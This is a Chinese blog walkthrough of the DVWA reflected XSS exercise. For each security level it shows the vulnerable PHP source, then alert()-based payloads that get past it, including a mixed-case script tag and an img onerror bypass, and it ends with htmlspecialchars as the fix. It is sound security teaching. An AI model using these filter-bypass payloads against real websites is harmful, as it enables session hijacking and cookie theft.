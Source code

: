 title: DVWA练习1-XSS
date: 2015-12-02 23:28:56
categories: 安全
tags: [Web安全,XSS]

---
### 一、XSS
#### 1.XSS简介  
 XSS即跨站脚本攻击，恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的特殊目的。
XSS通常分为三类：反射型XSS 存储型XSS DOM型XSS ，还有flash xss。  
<!--more-->
#### 2.XSS危害：
1.最常用的盗取cookie
2.劫持用户会话
3.网页挂马等等。
#### 3.XSS攻击平台：
1.http://webxss.cn/   
2.BeEF  
3.还有一些XSS扫描工具。
#### 4.XSS构造
1.wooyunBypassxss过滤的测试方法http://drops.wooyun.org/tips/845  
2.利用字符编码  
3.绕过长度限制  
#### 5.XSS防御
1.httponly  
2.对输入的数据进行检查，使用一些编码函数，如HtmlEncode,encodeJavaScript
### 二、DVWA练习
#### 1.low
安全级别为low时，没有任何防护，直接输入
  ``<script>alert("xxs")</script>``
但是在chrome下无法实现，推测是浏览器拦截了，在firefox下可以实现。  
查看源码如下：
```php
<?php
// name是否存在，并且name不为空
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
	//返回name,此处没有任何过滤
	$html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
```
#### 2.Medium
当输入``<script>alert("xxs")</script>``
发现输出为Hello alert("xxs")
查看源码如下：
```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
	// Get input
	$name = str_replace( '<script>', '', $_GET[ 'name' ] );

	// Feedback for end user
	$html .= "<pre>Hello ${name}</pre>";
}
?>
```
str_replace() 函数以其他字符替换字符串中的一些字符（区分大小写）,在此将 ``<script> ``修改大小写即可。``<SCript>alert("xxs")</SCript>``
#### 3.High
当输入``<script>alert("xxs")</script>``
输出 Hello > 。
查看源码
```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
	// Get input
	$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

	// Feedback for end user
	$html .= "<pre>Hello ${name}</pre>";
}
?>
```
preg_replace执行一个正则表达式的搜索和替换.在此替换了``<script>``中的内容，所以需要输入中不包含``<script>``
可以使用img标签来绕过。
输入：``<img src=1 onerror=alert(1)>  ``

#### 4.Impossible
```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
	// Get input
	$name = htmlspecialchars( $_GET[ 'name' ] );
	// Feedback for end user
	$html .= "<pre>Hello ${name}</pre>";
}
// Generate Anti-CSRF token
generateSessionToken();
?>
```
htmlspecialchars函数把预定义的字符 "<" （小于）和 ">" （大于）转换为 HTML 实体：
没有办法过滤
